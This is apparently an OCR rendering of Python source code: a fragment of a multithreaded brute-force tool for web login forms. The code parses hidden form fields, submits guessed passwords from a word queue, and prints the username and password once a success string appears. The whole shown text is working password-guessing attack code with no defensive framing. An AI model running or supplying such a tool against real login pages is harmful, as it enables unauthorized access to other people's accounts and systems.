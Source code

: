 ```python
    def __init__(self):
        HTMLParser.__init__(self)
        self.tag_results = {}

    def handle_starttag(self, tag, attrs):
        if tag == "input":
            tag_name = None
            for name, value in attrs:
                if name == "name":
                    tag_name = value
                if tag_name:
                    self.tag_results[tag_name] = value


class Bruter(object):
    def __init__(self, user, words_q):
        self.username = user
        self.password_q = words_q
        self.found = False
        print("Finished setting up for: %s" % user)

    def run_bruteforce(self):
        for i in range(user_thread):
            t = threading.Thread(target=self.web_bruter)
            t.start()

    def web_bruter(self):
        while not self.password_q.empty() and not self.found:
            brute = self.password_q.get().rstrip()
            jar = http.cookiejar.FileCookieJar("cookies")
            opener = urllib.request.build_opener(
                urllib.request.HTTPCookieProcessor(jar))

            response = opener.open(target_url)

            page = response.read()

            print("Trying: %s : %s (%d left)" % (
                self.username, brute, self.password_q.qsize()))

            # parse out the hidden fields
            parser = BruteParser()
            parser.feed(page)

            post_tags = parser.tag_results

            # add our username and password fields
            post_tags[username_field] = self.username
            post_tags[password_field] = brute

            login_data = urllib.parse.urlencode(post_tags)
            login_response = opener.open(target_post, login_data)

            login_result = login_response.read()

            if success_check in login_result:
                self.found = True

                print("[*] Bruteforce successful.")
                print("[*] Username: %s" % username)
                print("[*] Password: %s" % brute)
                print("[*] Waiting for other threads to exit...")

```